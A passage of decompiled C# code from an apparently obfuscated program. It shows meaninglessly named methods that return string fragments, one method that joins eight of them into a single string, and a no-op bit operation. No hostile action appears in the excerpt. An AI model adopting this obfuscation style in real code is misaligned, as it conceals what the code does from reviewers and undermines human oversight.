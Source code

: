 ```cs
    {
        return (char)(vzxc | (vzxc & 0));
    }

    // Token: 0x06000008 RID: 8 RVA: 0x00002123 File Offset: 0x00000323
    private string fdhjk()
    {
        return "a";
    }

    // Token: 0x06000009 RID: 9 RVA: 0x0000212C File Offset: 0x0000032C
    private string qwas()
    {
        return string.Concat(new string[]
        {
            this.fdhjh(),
            this.fdhjk(),
            this.trjuy(),
            this.tyg(),
            this.iotr(),
            this.tresd(),
            this.u7ytf(),
            this.fdgs()
        });
    }

    // Token: 0x0600000A RID: 10 RVA: 0x0000218C File Offset: 0x0000038C
    private string iotr()
    {
        return "";
    }

    // Token: 0x0600000B RID: 11 RVA: 0x00002193 File Offset: 0x00000393
    private string uytg(string kmnh)
    {
        return "." + kmnh;
    }

    // Token: 0x0600000C RID: 12 RVA: 0x000021A0 File Offset: 0x000003A0
    private string fdgs()
    {
        return "";
    }

    // Token: 0x0600000D RID: 13 RVA: 0x000021A7 File Offset: 0x000003A7
    private string jklw(string bvfd, string rtyu)
    {
        return bvfd + rtyu;
    }

    // Token: 0x0600000E RID: 14 RVA: 0x000021B0 File Offset: 0x000003B0
    private string hfda(string qplm)
    {
        return qplm ?? "";
    }

    // Token: 0x0600000F RID: 15 RVA: 0x000021BC File Offset: 0x000003BC
    private string yxcv(string asdf)
    {
        return asdf;
    }

    // Token: 0x06000010 RID: 16 RVA: 0x000021BF File Offset: 0x000003BF
```